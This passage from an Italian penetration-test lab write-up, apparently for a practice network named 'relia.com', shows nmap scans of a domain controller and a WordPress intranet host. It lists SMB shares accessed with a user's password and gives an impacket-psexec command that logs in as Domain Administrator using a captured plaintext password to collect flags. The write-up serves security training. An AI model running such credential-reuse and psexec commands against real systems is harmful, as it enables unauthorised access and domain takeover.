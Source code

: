 ```bash
|   DNS_Computer_Name: DC02.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-05-26T14:45:20+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: Host: DC02; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC02, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:9e:4a:ce (VMware)
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-05-26T14:45:19
|_  start_date: N/A
```

Accesso smb l'utente jim:

```bash
smbclient -N -L //172.16.156.6 -U relia.com/jim%Castello1\!
```

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
```

Una volta trovate le credenziali del Domain Admin sulla macchina 21, utilizzo questo comando per accedere e collezionare tutte le flag presenti su questa macchina:

```bash
impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@172.16.165.6
```

## 172.16.X.7 - INTRANET {pwned:local&proof}

```bash
sudo nmap -sC -sV -O 172.16.156.7
```

```bash
Nmap scan report for 172.16.156.7 (172.16.156.7)
Host is up (0.022s latency).
Not shown: 993 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_http-generator: WordPress 6.0.3
| http-title: RELIA INTRANET &#8211; Just another WordPress site
|_Requested resource was http://172.16.156.7/wordpress/
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
| http-title: RELIA INTRANET &#8211; Just another WordPress site
|_Requested resource was https://172.16.156.7/wordpress/
| tls-alpn: 
```